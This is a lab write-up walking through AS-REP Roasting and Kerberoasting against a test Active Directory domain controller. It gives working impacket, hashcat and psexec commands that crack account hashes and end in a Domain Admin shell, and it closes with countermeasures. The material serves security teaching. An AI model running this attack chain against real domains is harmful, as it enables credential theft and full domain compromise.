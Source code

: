 # Hacking Lab: AS-REP Roasting & Kerberoasting in Windows Active Directory

This document presents a complete and step-by-step guide to perform a cybersecurity laboratory in a virtualized environment, reproducing a realistic internal threat scenario involving AS-REP Roasting and Kerberoasting attacks within a Windows Active Directory domain.

## Introduction to the activity

### Scenario

The lab simulates a typical internal attack against an organization that uses **Windows Active Directory**, aiming to escalate privileges and compromise a high-privileged service account.

The environment has the following configuration:

 - Two virtual machines:

   - A Kali Linux machine, acting as the attacker

   - A Windows Server 2022 machine, acting as the Domain Controller (DC) for the domain `kerberoasting.local`

 - The DC hosts:

   - An Active Directory domain named `kerberoasting.local`

   - A domain user named Bob, who has **Kerberos pre-authentication disabled**

   - A high-privileged SQL service account `sqlsvc`, member of the **Domain Admins** group

### Goal

The main objective of this lab is to:

 - Crack the password of Bob using an **AS-REP Roasting attack**

 - Use Bob’s credentials to perform a **Kerberoasting attack**, targeting the SQLSVC account

 - Crack the service ticket offline to retrieve the password and impersonate a Domain Admin



### Threat Model

It is assumed that the attacker:

 - Has access to the **internal network** (same subnet as the DC)

 - Knows that an account in the domain (`Bob`) has **Kerberos pre-authentication disabled**

 - Does not initially possess any valid credentials

## Setting up the Virtual Environment

### Virtual Machines

 -  Kali Linux (Attacker):

    - Tools used: `impacket`, `hashcat`, `nmap`.

    - IP address: dynamically assigned (e.g., 192.168.56.20).

 - Windows Server 2022 (Domain Controller):

   - Domain: `kerberoasting.local`

   - Static IP: `192.168.56.10`

   - Active Directory configured with:

     - User `Bob` (low-privileged, pre-authentication disabled)

     - Service Account `sqlsvc` (member of **Domain Admin** group)

     - SQL Server service associated with `sqlsvc`
  
  > weak passwords were specially chosen for the accounts


## Attack Execution

### Step 1: Identify the Domain Controller

**Scan the local network**:

```bash
nmap -p 389 -A -v -Pn 192.168.56.0/24 
```

![Response of the nmap request](images/nmap-response.png)

Output shows LDAP (port `389`) open on `192.168.56.10` with domain: `kerberoasting.local`

---

### Step 2: Perform AS-REP Roasting on Bob

Since the user `Bob` has **Kerberos pre-authentication disabled**, an attacker can request a `TGT` without providing valid credentials

```bash
GetNPUsers.py kerberoasting.local/bob -dc-ip 192.168.56.10
```
This yields an **AS-REP hash**:

![Response of the GetNPUsers](images/GetNPUsers.png)

We save the hash to a file:

```bash
cat > tgtticket.hash
```

---

### Step 3: Crack AS-REP Hash

We use `hashcat` tool with the proper mode for **AS-REP Roasting** (`18200`) and a common password dictionary `rockyou`:

```bash
hashcat -m 18200 tgtticket.hash /usr/share/wordlists/rockyou.txt.gz
```

![Bob password Cracked](images/tgt_cracked.png)

If successful, the password of `Bob` is recovered. In this case:

> bob : ciao123

---

### Step 4: Perform Kerberoasting

Using Bob's credentials, we request a **service ticket** for the `sqlsvc` account:

```bash
GetUserSPNs.py -dc-ip 192.168.56.10 kerberoasting.local/bob:ciao123 -request
```

We can see how the service account is part of the **Domain Admin** group and also provides the **TGS Hash** for the sql service:

![Response of GetUserSPNs](images/GetUserSPNs.png)

We save it:

```bash
cat > tgsticket.hash
```

---

### Step 5: Crack TGS Hash Offline

Now, we try to recover the service account password using hashcat with **Kerberoasting** mode (`13100`):

```bash
hashcat -m 13100 tgsticket.hash /usr/share/wordlists/rockyou.txt.gz
```

After some time, the password is revealed:

> sqlsvc : password123

---

### Step 6: Domain Admin Access

With `sqlsvc` credentials, we now impersonate a Domain Admin:

```bash
psexec.py kerberoasting.local/sqlsvc:password123@192.168.56.10
```

This grants us **interactive shell access** as a **Domain Admin** on the Domain Controller.

---

## Conclusions

This lab clearly demonstrates the **risk of misconfigurations** in Active Directory environments:

- Disabling **Kerberos pre-authentication** for any account makes it vulnerable to **AS-REP Roasting**

- Service accounts with SPNs are potential targets for Kerberoasting, especially if their passwords are weak

- Attackers with internal access can chain these weaknesses to gain full domain control

### Countermeasures

- Never disable **Kerberos pre-authentication** unless absolutely necessary

- Ensure **strong**, **complex passwords** for all accounts, especially service accounts

- Monitor for **unusual** authentication patterns and ticket requests in logs


## Credits

 - AS-REP roasting attack: https://www.youtube.com/watch?v=EVdwnBFtUtQ&ab_channel=Conda

 - Kerberoasting attack: https://www.youtube.com/watch?v=BMBNteDRKHA&ab_channel=WhiteHats

 - ChatGPT: https://chatgpt.com